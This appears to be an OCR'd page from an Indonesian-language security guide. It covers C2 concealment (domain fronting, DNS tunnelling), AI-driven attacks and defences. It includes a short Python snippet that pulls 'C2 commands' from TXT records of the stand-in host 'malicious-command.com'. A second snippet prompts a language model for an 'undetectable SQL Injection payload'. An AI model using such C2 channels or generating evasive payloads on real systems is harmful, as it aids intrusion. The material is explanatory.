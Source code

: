 - **Domain Fronting** → Menyembunyikan traffic C2 menggunakan domain sah seperti Google atau Cloudflare.  
- **DNS Tunneling** → Menggunakan DNS query sebagai saluran komunikasi.  
- **Covert Channel Exploits** → Menggunakan media sosial atau layanan publik sebagai relay C2.  

**Contoh DNS Tunneling untuk Bypass WAF:**  
```python
import dns.resolver

domain = "malicious-command.com"
response = dns.resolver.resolve(domain, "TXT")

for txt_record in response:
    print(f"Received C2 Command: {txt_record}")
```

---

## 🤖 4. AI-Driven Cyber Attacks & Automated Warfare

Serangan berbasis **AI & Machine Learning** memungkinkan eksploitasi otomatis yang lebih cepat dan lebih sulit dideteksi.  
Teknik yang digunakan:

1. **AI-Powered Zero-Day Exploits** → Menggunakan AI untuk menemukan celah keamanan sebelum diperbaiki.  
2. **Neural Network-Based WAF Bypass** → Model AI belajar dari respon WAF untuk mengadaptasi payload.  
3. **Deepfake Social Engineering** → Menggunakan AI untuk menciptakan serangan berbasis manipulasi sosial.  

**Contoh AI untuk Generate Payload Adaptive:**  
```python
from transformers import pipeline

generator = pipeline("text-generation", model="EleutherAI/gpt-neo-2.7B")
payload = generator("Generate an undetectable SQL Injection payload:", max_length=50)

print(f"Generated AI-Powered Payload: {payload}")
```

---

## 🛡️ Cara Mencegah Cyberwarfare & Nation-State Attacks

1. **Gunakan Threat Intelligence Platform** → Integrasi data ancaman global untuk mengenali pola serangan APT.  
2. **Implementasi AI-Powered Intrusion Detection System (IDS)** → Analisis trafik secara real-time dengan AI.  
3. **Enforce Zero Trust Security Model** → Tidak ada entitas yang dipercaya tanpa verifikasi ketat.  
4. **Penerapan Post-Quantum Cryptography** → Mengamankan komunikasi dari eksploitasi berbasis quantum computing.  

---
